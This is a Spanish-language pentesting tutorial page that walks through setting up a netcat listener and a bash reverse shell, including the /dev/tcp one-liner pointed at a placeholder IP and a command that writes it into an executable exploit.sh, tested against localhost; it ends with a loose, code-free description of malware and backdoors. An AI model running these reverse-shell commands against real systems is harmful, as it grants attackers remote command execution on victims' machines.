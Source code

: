 ```yaml
---
title: Pentesting
published: true
---
```



<h2> TE AMO LU ME AMAS?</h2>

**Hola** hoy estaermos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).

-------
<br>

<h3><font color="lime">[*]</font> Empezaremos con las pruebas de ReverseShell:</h3>
los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya tengas los tengas instalados, 
en el caso contrario ejecuta:
<br>

para linux:

 `sudo apt-get install netcat bash`

para arch-linux:

`pacman -Sy netcat bash`

<br>
<br>

<h3>IMPORTANTE</h3> <ph><font color="green">[*]</font> Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

`bash`


<img src="screenshots/screen_bash.jpg">

<ph><font color="lime">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</ph>
<br>

---
<br>
<ph><font color="lime">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </ph>

`nc -nvlp 443`

<ph><font color="lime">[*]</font> Miramos que ip tenemos con el comando ifconfig :</ph>

`ifconfig`

<img src="screenshots/ifconfig.jpg">

<ph><font color="lime">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</ph>
<br>
<ph><font color="lime">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando `bash` antes de entablar
la coneccion.</ph>

<br>

<ph><font color="lime">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</ph>
<br>

`bash  	   # IMPORTANTE ES LA TERMINAL BASH NO LA ZSH`

`bash -i >& /dev/tcp/TU-IP/443/ 0>&1`


<img src='screenshots/reverse.jpg'>

<ph><font color="lime">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</ph>

-------
<br>

<ph><font color="lime">[*]</font> Ahora pasaremos a desarrollar un **script malicioso en bash**, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</ph>

<br>

```
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<ph><font color="lime">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer `ls` y veran un
archivo llamado **exploit.sh** y de paso otorgarle permiso de ejecucion.</ph>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```#!/bin/bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```
<br>
<ph><font color="lime">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

`touch exploit.sh`
`chmod +x exploit.sh`
Abren el archivo creado y colocan la `bash -i >& /dev/tcp/SU-IP/443 0>&1`

<br>

<ph><font color="lime">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto 443 con netcat. Recuerde
que con el comando <b>nc -nlvp 443</b> nos poniamos en escucha por el puerto 443 este puerto puede ser modificado siempre
y cuando el puerto no este en uso y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="lime">[*]</font> Nos ponemos en escucha con netcat</ph>
`nc -nlvp 443`

<ph><font color="lime">[*]</font> Y ejecutamos el archivo creado</ph>
`./exploit.sh`

<img src="screenshots/final.jpg">

<ph><font color="lime">[*]</font><b> Ahora como puden ver tengo una reverse shell</b></ph>

<br>

<ph><font color="lime">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
ejecutar el archivo este se debe a la extension "sh" que tiene el archivo.</ph>
<br>
<ph>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></ph>


---

<h3>Como estan desarollados los backdoor, exploits, payloads y malware?</h3>
<ph>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.<ph>
<ph>Un archivo malicioso ya puede ser malware exploit backdoor (Puerta tracera) payloads, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <b>C</b> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje c y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</ph>


